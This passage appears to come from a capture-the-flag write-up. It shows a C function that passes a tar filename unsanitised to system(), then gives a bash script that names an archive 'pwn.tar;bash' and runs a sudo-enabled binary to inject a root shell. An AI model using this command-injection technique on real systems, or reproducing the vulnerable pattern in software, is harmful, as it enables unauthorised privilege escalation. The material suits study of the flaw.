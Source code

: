 All that's left is to find a vulnerability to exploit in one of these functions:

- `listPlaybooks`: Not exploitable.
- `runPlaybook`: No write access to `/opt/playbooks`.
- `installRole`: No input sanitization, no restrictions!

#### installRole Overview

The `installRole` function is defined as follows:

```c
int installRole(const char *roleFile) {
    int isTar;
    char install_command[1024];

    isTar = isTarArchive(roleFile);
    if (isTar == 0) {
        printf("Invalid tar archive.\n");
        return 1;
    } else {
        snprintf(install_command, sizeof(install_command), "%s install %s", ANSIBLE_GALAXY_BIN, roleFile);
        system(install_command);
        return 0;
    }
}
```

It is definitely vulnerable to command injection. The idea is to inject the command into the TAR archive filename, which results in:

```bash
/usr/bin/ansible-galaxy install role.tar;pwn
```

#### Exploiting Command Injection

Steps to perform the exploitation are as follows:

1. Construct a TAR archive with a filename that includes a command injection payload.
2. Create a JSON file with the `install` action and set the `role_file` field to the malicious TAR archive.
3. Execute the `runner2` binary with the prepared JSON file to trigger the command injection.

Here's the script to achieve this:

```bash
#!/bin/bash

cd /dev/shm
json='{
    "run": {
        "action": "install",
        "role_file": "/dev/shm/pwn.tar;bash"
    },
    "auth_code": "UHI75GHINKOP"
}'
echo "$json" > pwn.json
touch pwn
tar -cf 'pwn.tar;bash' pwn
rm pwn
sudo /opt/runner2/runner2 pwn.json
```
